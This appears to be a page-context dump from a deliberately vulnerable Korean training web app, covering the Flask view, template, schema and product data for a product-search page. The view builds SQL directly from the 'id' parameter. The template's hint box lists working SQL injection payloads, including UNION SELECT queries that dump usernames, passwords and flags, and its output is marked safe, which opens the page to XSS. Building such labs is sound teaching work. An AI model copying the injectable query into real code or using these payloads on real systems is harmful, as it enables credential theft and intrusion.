
/products (signed in), run on the app's committed database.
### tables this page shows
CREATE TABLE products (
            id          INTEGER PRIMARY KEY AUTOINCREMENT,
            name        TEXT NOT NULL,
            description TEXT,
            price       INTEGER
        );

### app.py (the view, shortened to what this page needs)
@app.route("/products")
def products():
    search = request.args.get("search", "")
    product_id = request.args.get("id", "")
    results = []
    query_shown = ""
    error = None
    conn = get_db()
    c = conn.cursor()
    if product_id:
        query_shown = f"SELECT id,name,description,price FROM products WHERE id={product_id}"
        try:
            c.execute(query_shown)
            results = c.fetchall()
        except Exception as e:
            error = str(e)
    else:
        c.execute("SELECT id,name,description,price FROM products")
        results = c.fetchall()
    conn.close()
    return render_template("products.html",
                           results=results,
                           query=query_shown,
                           search=search,
                           error=error)

### app.py (called while the page is built)
def get_db():
    return sqlite3.connect(DB_PATH)

### templates/products.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
  <div class="card-title">상품 검색 <span class="vuln-badge">SQL Injection</span></div>
  <div class="hint">
    테스트 페이로드 (ID 파라미터):<br>
    • <code>/products?id=1</code> → 정상 조회<br>
    • <code>/products?id=1 OR 1=1</code> → 전체 상품 노출<br>
    • <code>/products?id=0 UNION SELECT 1,username,password,4 FROM users--</code> → 계정 정보 탈취<br>
    • <code>/products?id=0 UNION SELECT 1,flag,3,4 FROM secret_flags--</code> → 플래그 탈취<br><br>
    테스트 페이로드 (검색 파라미터):<br>
    • <code>/products?search=' OR '1'='1</code> → 전체 목록<br>
    • <code>/products?search=%' UNION SELECT 1,username,password,4 FROM users--</code>
  </div>
  <form method="GET" style="display:flex;gap:10px;margin-bottom:16px;">
    <input type="text" name="search" placeholder="상품명 검색..." value="{{ search }}" style="flex:1;">
    <input type="text" name="id" placeholder="ID 직접 조회" style="width:160px;">
    <button type="submit" class="btn">검색</button>
  </form>
  {% if results %}
  <table style="margin-top:14px;">
    <tr><th>ID</th><th>이름</th><th>설명</th><th>가격</th></tr>
    {% for r in results %}
    <tr>
      <td>{{ r[0] }}</td>
      <td>{{ r[1] | safe }}</td>
      <td>{{ r[2] | safe }}</td>
      <td>{{ r[3] | safe }}</td>
    </tr>
    {% endfor %}
  </table>
  {% else %}
  <div style="color:var(--muted);font-size:12px;margin-top:10px;">검색 결과 없음</div>
  {% endif %}
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
*,*::before,*::after { box-sizing:border-box;margin:0;padding:0 }
:root { --bg:#0d0d0f;--surface:#16161a;--surface2:#1e1e24; --border:#2a2a35;--accent:#ff4444;--accent2:#ff7700; --green:#00ff88;--text:#e8e8f0;--muted:#888899; --font:'Courier New',monospace; }
body { background:var(--bg);color:var(--text);font-family:var(--font);min-height:100vh; }
.card { background:var(--surface);border:1px solid var(--border);border-radius:4px;padding:24px;margin-bottom:20px; }
.card-title { font-size:11px;letter-spacing:2px;color:var(--accent);text-transform:uppercase;margin-bottom:16px; }
.vuln-badge { display:inline-block;background:rgba(255,68,68,.15);border:1px solid rgba(255,68,68,.4);color:var(--accent);font-size:10px;padding:2px 8px;border-radius:2px;margin-left:8px;letter-spacing:1px; }
input[type=text],input[type=password],input[type=email],input[type=number],textarea,select { width:100%;background:var(--bg);border:1px solid var(--border);color:var(--text);padding:9px 12px;font-family:var(--font);font-size:13px;border-radius:2px;outline:none;transition:border-color .2s; }
.btn { display:inline-block;background:var(--accent);color:#fff;border:none;padding:9px 20px;font-family:var(--font);font-size:12px;letter-spacing:1px;cursor:pointer;border-radius:2px;text-decoration:none;transition:background .2s; }
.hint { font-size:11px;color:var(--muted);border-left:2px solid var(--border);padding-left:10px;line-height:1.8;margin-bottom:16px; }
table { width:100%;border-collapse:collapse;font-size:12px; }
th { background:var(--surface2);color:var(--muted);padding:8px 12px;text-align:left;font-size:10px;letter-spacing:1px;border-bottom:1px solid var(--border); }
td { padding:8px 12px;border-bottom:1px solid var(--border); }

### data on the page
products: id "1", name "갤럭시 S25", description "삼성 최신 플래그십", price "1200000"
products: id "2", name "아이폰 16", description "애플 최신 스마트폰", price "1500000"
products: id "3", name "맥북 프로", description "M3 칩 탑재 노트북", price "3500000"
products: id "4", name "갤럭시 탭", description "안드로이드 태블릿", price "800000"
products: id "5", name "에어팟 프로", description "노이즈 캔슬링 이어폰", price "350000"

### other printed values
{{ session.user }} "alice"
